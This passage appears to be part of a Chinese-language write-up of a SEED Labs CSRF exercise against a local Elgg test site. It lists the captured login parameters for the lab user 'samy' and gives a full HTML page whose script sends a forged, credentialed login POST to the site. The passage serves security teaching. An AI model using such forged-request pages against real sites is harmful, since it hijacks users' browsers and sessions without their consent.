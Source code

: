 使用samy进行登录测试

目标url:http://www.csrflabelgg.com/action/login

```
__elgg_token	VVxrxabIArM68W478e9YNg
__elgg_ts	1685482802
password	seedsamy
persistent	true
username	samy
```

### 1.3.2 构造恶意站点

参数

```
password:seedsamy
persistent:true
username:samy
```

csrf_login.html

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>CSRF_Login</title>
</head>
<body>
CSRF_Login
</body>

<script>
    // 发送POST请求
    // 携带cookie
    fetch('http://www.csrflabelgg.com/action/login', {
        credentials: 'include',
        method: 'POST',
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
        },
        // 传递参数
        body: new URLSearchParams({
            password:"seedsamy",
            persistent:true,
            username:"samy",
        })
    })

</script>
</html>
```
